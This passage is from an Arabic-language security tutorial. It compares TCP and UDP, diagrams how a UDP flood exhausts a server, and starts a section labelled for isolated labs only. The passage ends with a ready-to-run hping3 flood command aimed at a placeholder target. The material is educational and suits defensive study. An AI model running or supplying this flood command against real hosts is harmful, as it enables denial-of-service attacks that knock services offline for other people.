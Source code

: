 ### 📋 الفرق بين TCP و UDP

| الميزة | TCP | UDP |
|--------|-----|-----|
| الاتصال | Connection-oriented | Connectionless |
| المصافحة | نعم (3-way handshake) | لا |
| الموثوقية | مضمون الوصول | غير مضمون |
| السرعة | أبطأ | أسرع |
| الترتيب | مرتب | غير مرتب |

### 🔬 آلية هجوم UDP Flood

```
Attacker                    Target Server
  |                              |
  |------- UDP Packet ---------->| Port 53 (DNS)
  |------- UDP Packet ---------->| Port 161 (SNMP)
  |------- UDP Packet ---------->| Port 12345 (Random)
  |------- UDP Packet ---------->| Port 9999 (Closed)
  |       (thousands/sec)        |
  |                              |
  |                         [Server Process]
  |                         1. تلقي الحزمة
  |                         2. فحص المنفذ
  |                         3. المنفذ مغلق؟
  |                         4. إرسال ICMP Port Unreachable
  |                              |
  |<---- ICMP Unreachable -------|
  |<---- ICMP Unreachable -------|
  |<---- ICMP Unreachable -------|
  |                              |
  |                    [Result: Resource Exhaustion]
  |                    • CPU: 100%
  |                    • Bandwidth: Saturated
  |                    • Service: Unavailable
```

### 🔬 التطبيق العملي (بيئة مختبرية معزولة فقط)

#### البيئة المطلوبة
- شبكة مختبرية معزولة تماماً
- خادم اختبار مخصص
- إذن خطي موثق

#### استخدام hping3

**الهجوم الأساسي:**
```bash
sudo hping3 --udp -p 53 --flood TARGET_IP
```
